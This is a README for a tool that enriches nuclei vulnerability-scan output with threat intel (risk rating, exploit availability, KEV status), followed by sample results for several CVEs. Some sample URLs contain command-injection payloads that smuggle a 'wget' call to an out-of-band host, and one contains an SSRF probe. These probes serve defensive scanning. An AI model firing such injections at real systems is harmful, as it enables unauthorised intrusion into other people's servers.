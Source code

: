 # nuclei-nvi
# Enriches nuclei CVE results with vulnerability intel from NVI platform - https://www.northinfosec.com/ 

Simple usage:

nuclei -target http://sample.nuclei-target.com --silent | python3  nuclei-nvi.py  

----------------------------------------
Template ID: CVE-2014-3206
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/backupmgt/localJob.php?session=fail;wget+http://cqqf5fng4vbb67d6ath09hcfohi51hmyx.oast.site;
Intel: NVI risk_rating => High | Public exploit => No_Known_exploit | Ransomware => no | kev => yes 
----------------------------------------
Template ID: CVE-2016-1555
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/boardDataWW.php
Intel: NVI risk_rating => Critical | Public exploit => poc | Ransomware => no | kev => yes 
----------------------------------------
Template ID: CVE-2017-9506
Category: http
Nuclei rating: medium
URL: http://sample.nuclei-target.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://cqqf5fng4vbb67d6ath059tkk51qewsbf.oast.site
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 
----------------------------------------
Template ID: CVE-2017-3506
Category: http
Nuclei rating: high
URL: http://sample.nuclei-target.com/wls-wsat/RegistrationRequesterPortType
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 
----------------------------------------
Template ID: CVE-2014-3206
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/backupmgt/pre_connect_check.php?auth_name=fail;wget+http://cqqf5fng4vbb67d6ath05dc5mwird8dcc.oast.site;
Intel: NVI risk_rating => High | Public exploit => No_Known_exploit | Ransomware => no | kev => yes 
----------------------------------------
Template ID: CVE-2018-16167
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/upload
Intel: NVI risk_rating => Critical | Public exploit => poc | Ransomware => no | kev => yes 
----------------------------------------
Template ID: CVE-2019-10758
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/checkValid
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 
----------------------------------------
Template ID: CVE-2019-2616
Category: http
Nuclei rating: high
URL: http://sample.nuclei-target.com/xmlpserver/ReportTemplateService.xls
Intel: NVI risk_rating => Critical | Public exploit => Weaponized | Ransomware => No | kev => Yes 
----------------------------------------


